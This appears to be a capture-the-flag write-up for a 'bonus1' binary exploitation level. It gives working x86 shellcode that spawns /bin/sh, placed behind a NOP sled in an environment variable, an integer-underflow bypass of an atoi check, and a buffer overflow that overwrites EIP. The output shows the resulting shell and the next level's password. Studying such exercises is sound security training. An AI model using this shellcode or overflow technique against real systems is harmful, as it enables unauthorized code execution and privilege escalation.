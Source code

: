 Like the previous exercise, we implement an environment variable `EXPLOIT` :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")
```

We found an `atoi` using our `argv[1]` and a condition which using `memcpy` only if `atoi` return is under 10.
We just need to underflow `argv[1]` to bypass the condition, after we insert into `argv[2]` a padding of 56 bytes and our `EXPLOIT` address in `eip` register :
```bash
./bonus1 -2147483628 $(python -c "print 'A' * 56 + '\x04\xf8\xff\xbf'")
$ whoami
bonus2
$ cd .. && cat bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
